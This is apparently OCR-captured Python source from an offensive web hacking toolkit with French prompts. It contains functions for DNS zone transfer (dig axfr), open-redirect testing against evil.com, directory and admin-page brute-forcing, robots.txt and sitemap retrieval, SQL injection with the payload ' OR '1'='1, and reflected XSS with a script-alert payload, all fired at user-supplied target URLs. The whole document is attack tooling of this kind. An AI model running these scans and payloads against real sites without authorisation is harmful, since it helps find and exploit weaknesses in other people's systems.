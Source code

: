 def zone_transfer():
    domain = input("Domaine cible : ")
    dns_server = input("DNS Server : ")
    try:
        result = subprocess.check_output(['dig', 'axfr', domain, f"@{dns_server}"])
        print(result.decode())
    except:
        print("Zone transfer failed.")

def open_redirect():
    url = input("URL vulnérable (ex: site.com/redirect.php?url=): ")
    payload = "https://evil.com"
    test_url = url + payload
    r = requests.get(test_url)
    if payload in r.url:
        print("[+] Vulnérable à l'Open Redirect")
    else:
        print("[-] Non vulnérable")

def dir_brute():
    target = input("Site cible : ")
    paths = ["admin", "login", "dashboard"]
    for path in paths:
        url = f"http://{target}/{path}"
        r = requests.get(url)
        if r.status_code == 200:
            print(f"[+] {url} trouvé !")

def admin_page_finder():
    dir_brute()

def robots_txt():
    site = input("Site cible : ")
    url = f"http://{site}/robots.txt"
    r = requests.get(url)
    print(r.text if r.status_code == 200 else "Pas trouvé")

def sitemap_finder():
    site = input("Site cible : ")
    url = f"http://{site}/sitemap.xml"
    r = requests.get(url)
    print(r.text if r.status_code == 200 else "Pas trouvé")

# Exploits
def sql_injection_tester():
    url = input("URL vulnérable (ex: site.com/page.php?id=1): ")
    payload = "' OR '1'='1"
    if "error" in requests.get(url + payload).text.lower():
        print("[+] Vulnérable à SQLi")
    else:
        print("[-] Non vulnérable")

def xss_payload_injector():
    url = input("URL vulnérable : ")
    payload = "<script>alert(1)</script>"
    r = requests.get(url + payload)
    if payload in r.text:
        print("[+] XSS trouvé")
